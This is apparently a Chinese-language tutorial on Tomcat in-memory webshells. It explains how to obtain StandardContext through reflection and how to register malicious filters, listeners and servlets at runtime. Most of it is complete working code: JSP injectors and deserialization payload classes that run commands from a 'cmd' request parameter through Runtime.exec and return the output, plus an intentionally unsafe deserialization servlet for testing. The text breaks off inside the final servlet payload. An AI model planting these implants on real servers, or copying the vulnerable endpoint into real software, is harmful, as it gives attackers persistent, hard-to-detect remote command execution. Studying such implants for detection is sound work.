



# Tomcat 内存马
## 测试环境

测试环境可以直接使用现有项目：[su18/MemoryShell: JavaWeb MemoryShell Inject/Scan/Killer/Protect Research & Exploring](https://github.com/su18/MemoryShell)，其中的 memshell-test-tomcat 可以用于 tomcat 内存马测试。

可以在其基础上添加一个 DesearialServlet 便于测试反序列化写入。
```java
package org.su18.memshell.test.tomcat;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;


public class DesearialServlet extends HttpServlet {

    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String message = "tomcat index servlet test";
        String postData = req.getReader().readLine();

        byte[] decode = Base64.getDecoder().decode(postData);

        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(decode));

        try {
            objectInputStream.readObject();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }

        resp.getWriter().println("done");
    }
}
```
对应 web.xml 添加如下内容：
```xml
<servlet>
    <servlet-name>DesearialServlet</servlet-name>
    <servlet-class>org.su18.memshell.test.tomcat.DesearialServlet</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>DesearialServlet</servlet-name>
    <url-pattern>/deserial</url-pattern>
</servlet-mapping>
```

## 获取 StandardContext
Tomcat Context 接口存在三个实现类，分别是 FailedContext、ReplicatedContext 和 StandardContext（标准上下文）。

其中 StandardContext 最为关键，提供了对 Web 应用程序的部署和管理功能，包括处理 Web 应用程序的生命周期、配置 Servlet、Filter、Listener 等 Web 组件、管理 Web 应用程序的上下文环境，并且提供了对JSP编译和JSP页面的支持。

如何获取 StandardContext 对象？StandardContext 对象的获取方式在不同场景下有所不同。根据已有文档的总结，大概有如下几种场景：
### 已有 request 对象 (JSP)
JSP 中可以直接获取到 request 对象。request 对象的 getDeclaredField 方法可以获取到 ApplicationContextFacade 类实例，这个类是 ApplicationContext 的门面类。其 context 属性存放了 ApplicationContext 实例。ApplicationContext 类是 ServletContext 类的一个实现类，其 context 属性存放了 StandardContext 实例。



对应的代码如下：
```jsp
<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
```

### 没有 request 对象的情况
没有 request 对象的情况下有两种思路，一种是想办法获取到 request 对象，另一种是通过线程直接获取 StandardContext
#### 通过 TaskThread 类获取
TaskThread 是 Tomcat 中用于执行异步任务的线程类，是 Tomcat 线程池的一部分，负责执行 Web 应用程序中的后台任务和异步操作。通过 Thread.currentThread() 即可获取到当前线程的 TaskThread 对象。

TaskThread 类继承自 Thread 类, 其中的 getContextClassLoader 方法可以获取当前上下文的类加载器。

Tomcat 中与 Web 应用相关的两个类加载器分别是：ParallelWebappClassLoader 和WebappClassLoader,默认情况下 Tomcat 使用 ParallelWebappClassLoader 作为类加载器。两者均继承自 WebappClassLoaderBase。而 WebappClassLoaderBase 继承自 URLClassLoader。

WebappClassLoaderBase 类中的 resources 字段存放了一个 StandardRoot 实例。StandardRoot 类实现了 WebResourceRoot 接口，其 getContext 方法可以获取到 StandardContext 实例。




具体代码如下，通过反射来进行获取
```java
Class WebappClassLoaderBaseClz = Class.forName("org.apache.catalina.loader.WebappClassLoaderBase");
Object webappClassLoaderBase = Thread.currentThread().getContextClassLoader();

Field WebappClassLoaderBaseResource = WebappClassLoaderBaseClz.getDeclaredField("resources");
WebappClassLoaderBaseResource.setAccessible(true);

Object resources = WebappClassLoaderBaseResource.get(webappClassLoaderBase);

Class WebResourceRoot = Class.forName("org.apache.catalina.WebResourceRoot");
Method getContext = WebResourceRoot.getDeclaredMethod("getContext", null);

StandardContext standardContext = (StandardContext) getContext.invoke(resources, null);
```

注意：这种方法仅在 Tomcat 8,9 中有效

#### 通过 ThreadLocal 获取 request

> 这个方法来自于 threedr3am 师傅的文章：[基于tomcat的内存 Webshell 无文件攻击技术 - 先知社区](https://xz.aliyun.com/t/7388#toc-0)，详细过程就不展开了，看文章即可。获取request之后，就可以获得StandardContext了，这种方法可以兼容tomcat 789，但在Tomcat 6下无法使用。

这个方法首先利用反射修改 ApplicationDispatcher.WRAP_SAME_OBJECT 为 true，对 lastServicedRequest 和 lastServicedResponse 进行初始化，这两个属性均为 ThreadLocal 实例。
```java
if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
    lastServicedRequest.set(request);
    lastServicedResponse.set(response);
}
```
初始化后，每次请求，就能通过这两个 ThreadLocal 获取到相应的 request。 获取到 request 之后，就可以按照"已有 request 对象"中的步骤进行获取。

#### 通过 MBean 获取
> Tomcat 使用 JMX MBean 来实现自身的性能管理。而我们可以从jmxMBeanServer对象，在其field中一步一步找到StandardContext对象。具体实现过程和代码，可见这篇文章:[中间件内存马注入&冰蝎连接(附更改部分代码)](https://mp.weixin.qq.com/s/eI-50-_W89eN8tsKi-5j4g)，这种方法可以兼容Tomcat789，但有个很大的局限性在于，必须猜中项目名和host，才能获取到对应的 standardContext 对象。

#### 通过 Spring 获取
> 这里的context是spring中的运行时上下文，并非tomcat的StandardContext对象。所以这个context是注入SpringMVC 和SpringBoot框架下的controller和intercepter才能用的。具体实现方法和代码，可以看这篇文章:[LandGrey's Blog](https://landgrey.me/blog/12/)

#### 通过 Acceptor 获取
这篇文章：[Java内存马：一种Tomcat全版本获取StandardContext的新方法 - 先知社区](https://xz.aliyun.com/t/9914#toc-8) 介绍了一种兼容 Tomcat 6789 获取 StandardContext 的方法。


## filter 型
### 静态注册 filter
正常情况下，我们如果要添加一个 filter，可以通过实现 Filter 接口来完成，如下的代码中，Shell_Filter 实现了 Filter 接口，重写了 doFilter 函数，并且使用 WebFilter 注解将该过滤器绑定到能够被 /* 匹配的所有路由上。

doFilter 会先获取 cmd 参数内容，然后通过 Runtime 实现命令执行。

```java
import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.IOException;

@WebFilter(urlPatterns = "/*")
public class Shell_Filter implements Filter {

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }
}
```
如果要让这个 filter 生效，还需要在 springboot 入口上添加 ServletComponentScan 注解。

```java
@SpringBootApplication
@ServletComponentScan("com.dr34d.memshell_test.Filter")
public class MemshellTestApplication {

    public static void main(String[] args) {
        SpringApplication.run(MemshellTestApplication.class, args);
    }

}
```
ServletComponentScan 注解的作用是告诉 Spring Boot 在启动时扫描指定的包路径，寻找带有 @WebServlet、@WebFilter 和 @WebListener 注解的类，并将其注册为 Servlet、Filter 和 Listener。

再次运行测试项目，访问 / 时带入 payload 即可触发命令执行。


### 动态注册 filter
filter 的调用过程与几个关键的类息息相关：

1. FilterDef（过滤器定义）：`FilterDef` 是用于定义一个过滤器的配置对象，它包含了过滤器的名称、类名、初始化参数等信息。它表示一个具体的过滤器定义。

2. FilterMap（过滤器映射）：`FilterMap` 是用于将过滤器与特定的 URL 或 Servlet 的映射关系配置起来的对象。它指定了哪些 URL 或 Servlet 应该被指定的过滤器过滤。一个过滤器可以有多个对应的 `FilterMap`，表示它可以匹配多个 URL 或 Servlet。

3. FilterConfig（过滤器配置）：`FilterConfig` 是存储所有过滤器的配置信息的对象，它包含了所有已定义的过滤器及其对应的 `FilterDef` 和 `FilterMap`。它是一个集合或映射，用于管理和存储过滤器的配置信息。

4. ApplicationFilterChain（过滤器链）：`filterChain` 就是这个类的实例，也就是过滤器链的执行对象。`filterChain` 会根据请求的 URL 或 Servlet 的映射关系，从 `filterConfigs` 中获取相应的 `FilterDef` 和 `FilterMap` 配置。然后，`filterChain` 会根据配置的顺序，依次调用过滤器的 `doFilter` 方法，传递请求和响应对象。这样就形成了一个按顺序执行的过滤器链，每个过滤器都有机会处理请求或修改响应，然后将请求传递给下一个过滤器或目标 Servlet。

5. StandardContext：  StandardContext 是 Tomcat 中控制 Web 应用的上下文对象, 其中就包含了过滤器的配置信息, 并且 StandardContext 提供了操作 FilterMpa、FilterDef 的函数，例如 addFilterMap、addFilterMapBefore 等。

这些组件的关系如下：
```java
StandardContext
└── filterConfigs(FilterConfig)
    ├── FilterDef
    ├── FilterDef
    └── FilterMap

FilterChain
├── Filter
├── Filter
└── Filter
```

也就是说，想要动态地注册一个恶意的 filter，就需要构建 FilterDef、FilterMap 以及，FilterConfig，然后将其添加到应用程序 FilterConfig 集合中，当过滤器链触发时即可执行我们的恶意 filter。

由于 StandardContext 存放了过滤器的配置信息，因此在编写代码时，可以通过 StandardContext 获取这些配置信息再加以修改。

动态注册 filter 的步骤如下：
>1. 首先通过反射，从 request 中获取 Tomcat 中控制 Web 应用的 Context（StandardContext 对象）
>2. 利用获取的上下文 StandardContext 对象获取 filterconfigs 对象
>3. 创建一个恶意 Filter 对象并重写其 doFilter、init、destroy 方法，在其中实现命令执行，最后 filterChain 传入后面的 filter
>4. 创建 FilterDef 对象并利用刚刚创建的 requestFilter 对象来初始化，并新建一个 FilterMap 对象，为创建的 FilterDef 对象添加URL映射
>5. 创建 FilterConfig 对象并使用上方创建的 FilterDef 对象初始化，最后将其加入 filterconfigs 里面，等待 filterChain.dofilter 调用。

### JSP 写入 filter 内存马

完整代码：
```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.Map" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>


<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>

<%! public class Shell_Filter implements Filter {
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void destroy() {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {
                e.printStackTrace();
            } catch (NullPointerException n) {
                n.printStackTrace();
            }
        }
        chain.doFilter(request, response);
    }
}
%>

<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);


    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);


    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```

#### 反序列化写入
反序列化写入时，可以用 TemplatesImpl 类来实例化恶意类，在恶意类的静态代码块中编写注入内存马的逻辑。

恶意类如下：
```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.*;
/*
Tomcat 8,9 tested
 */
public class MFTomcatFromThread implements Filter {

    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/*";

    static {
        try {
            final String name = String.valueOf(System.nanoTime());

            WebappClassLoaderBase webappClassLoaderBase =
                    (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);

                standardContext = (StandardContext) field2.get(root);
            }

            Class<? extends StandardContext> aClass = null;
            try {
                aClass = (Class<? extends StandardContext>) standardContext.getClass().getSuperclass();
                aClass.getDeclaredField("filterConfigs");
            } catch (Exception e) {
                aClass = standardContext.getClass();
                aClass.getDeclaredField("filterConfigs");
            }
            Field Configs = aClass.getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            MFTomcatFromThread behinderFilter = new MFTomcatFromThread();

            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(behinderFilter);
            filterDef.setFilterName(name);
            filterDef.setFilterClass(behinderFilter.getClass().getName());

            standardContext.addFilterDef(filterDef);

            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern(filterUrlPattern);
            filterMap.setFilterName(name);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());

            standardContext.addFilterMapBefore(filterMap);

            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

            filterConfigs.put(name, filterConfig);
        } catch (Exception ignored) {
        }
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
                "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```


## listener 型

### 动态注册 listener
listener 型内存马的实现原理与 filter 类似，需要动态地添加一个恶意 listener，具体步骤如下：
1. 获取 StandardContext
2. 实现一个恶意 Listener
3. 通过 StandardContext.addApplicationEventListener 添加恶意 Listener

获取 StandardContext 的方式与 filter 型内存马相同。实现恶意 listener 时可以继承相应的 listener 接口，具体选择哪一个 listener 接口可以根据需求决定

Tomcat 中的 Listener 接口有很多，常见的几种如下：

1. ServletContextListener：用于监听 ServletContext 的创建和销毁事件，可以在应用程序启动和关闭时执行相应的逻辑操作。
2. ServletRequestListener：用于监听 ServletRequest 的创建和销毁事件，可以在每个请求的开始和结束时执行相应的逻辑操作。
3. HttpSessionListener：用于监听 HttpSession 的创建和销毁事件，可以在每个会话的开始和结束时执行相应的逻辑操作。
...

其中 ServletRequestListener 可以在每个请求的开始和结束触发，因此更适合用来实现内存马。ServletRequestListener 的实现类需要实现 requestDestroyed 和 requestInitialized 方法，分别对应请求的开始和结束。

```java
public interface ServletRequestListener extends EventListener {
    default void requestDestroyed(ServletRequestEvent sre) {
    }

    default void requestInitialized(ServletRequestEvent sre) {
    }
}
```
编写完恶意 listener 后，为了时其生效，可以使用 StandardContext.addApplicationEventListener 函数将恶意 listener 添加到 applicationEventListenersList 中。
```java
    public void addApplicationEventListener(Object listener) {
        this.applicationEventListenersList.add(listener);
    }
```

### JSP 写入 listener 内存马
jsp 实现如下
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
 
<%!
    public class Shell_Listener implements ServletRequestListener {
 
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Runtime.getRuntime().exec(cmd);
               } catch (IOException e) {
                   e.printStackTrace();
               } catch (NullPointerException n) {
                   n.printStackTrace();
               }
            }
        }
 
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
 
    Shell_Listener shell_Listener = new Shell_Listener();
    context.addApplicationEventListener(shell_Listener);
%>
```

### 反序列化写入
恶意类如下：
```java
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.RequestFacade;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * 使用 JMX Bean 注入 Tomcat Listener 型内存马
 */
public class MLTomcatFromThread implements ServletRequestListener {

    private final String cmdParamName = "cmd";
    static {
        try {
            // 获取 standardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

            StandardContext       standardContext;

            try {
                standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            } catch (Exception ignored) {
                Field field = webappClassLoaderBase.getClass().getSuperclass().getDeclaredField("resources");
                field.setAccessible(true);
                Object root   = field.get(webappClassLoaderBase);
                Field  field2 = root.getClass().getDeclaredField("context");
                field2.setAccessible(true);

                standardContext = (StandardContext) field2.get(root);
            }

            MLTomcatFromThread listener = new MLTomcatFromThread();
            standardContext.addApplicationEventListener(listener);
        } catch (Exception ignored) {
        }
    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try {
            RequestFacade requestFacade = (RequestFacade) servletRequestEvent.getServletRequest();
            Field         field         = requestFacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request  request  = (Request) field.get(requestFacade);
            Response response = request.getResponse();
            requestInitializedHandle(request, response);
        } catch (Exception ignore) {
        }
    }

    public void requestInitializedHandle(HttpServletRequest request, HttpServletResponse response) throws IOException {
        System.out.println(
                "TomcatShellInject listener.....................................................................");
        String cmd;
        if ((cmd = request.getParameter(cmdParamName)) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            response.getOutputStream().write(stringBuilder.toString().getBytes());
            response.getOutputStream().flush();
            response.getOutputStream().close();
            return;
        }
    }
}
```

## servlet 型
在Tomcat中，Servlet 的生命周期可以分为以下几个阶段：

1. 加载阶段（Load）：当 Tomcat 启动时，会加载 web 应用的所有 Servlet。在加载阶段，Servlet 类被加载到内存中，并进行初始化准备工作。

2. 实例化阶段（Instantiation）：在加载阶段后，Tomcat 会根据 web.xml 文件或注解配置，创建 Servlet 实例。每个 Servlet 类对应一个 Servlet 实例。

3. 初始化阶段（Initialization）：在实例化阶段后，Tomcat 会调用 Servlet的 init() 方法进行初始化。在 init() 方法中，可以进行一些必要的配置和资源加载操作。该方法只会被调用一次。

4. 请求处理阶段（Request Handling）：在初始化完成后，Servlet 处于可接收请求的状态。当有请求到达时，Tomcat 会创建一个线程来处理该请求，并调用 Servlet 的 service() 方法来处理请求。在 service() 方法中，可以根据请求类型（GET、POST等）执行相应的业务逻辑。

5. 销毁阶段（Destroy）：当Tomcat关闭或者 web 应用被卸载时，Servlet 将被销毁。在销毁阶段，Tomcat 会调用 Servlet 的 destroy() 方法，用于释放资源和清理操作。该方法只会被调用一次。



### 动态注册 servlet
在内存马的实现中，具体创建流程的分析可见博客：[Java安全学习——内存马 - 枫のBlog](https://goodapple.top/archives/1355), 文中归纳了创建一个 servlet 的步骤：
> 1. 获取StandardContext对象
> 2. 编写恶意Servlet
> 3. 通过 StandardContext.createWrapper() 创建 StandardWrapper 对象
>    1. 设置 StandardWrapper 对象的 loadOnStartup 属性值
>    2. 设置 StandardWrapper 对象的 ServletName 属性值
>    3. 设置 StandardWrapper 对象的 ServletClass 属性值
> 4. 将 StandardWrapper 对象添加进S tandardContext 对象的 children 属性中
> 5. 通过 StandardContext.addServletMappingDecoded() 添加对应的路径映射

### JSP servlet 内存马
```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
 
<%!
 
    public class Shell_Servlet implements Servlet {
        @Override
        public void init(ServletConfig config) throws ServletException {
        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {
        }
    }
 
%>
 
<%
    Shell_Servlet shell_servlet = new Shell_Servlet();
    String name = shell_servlet.getClass().getSimpleName();
 
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(name);
    wrapper.setServlet(shell_servlet);
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>
 
<%
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/shell",name);
%>
```

### 反序列化写入
恶意类
```java
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationServletRegistration;
import org.apache.catalina.core.StandardContext;
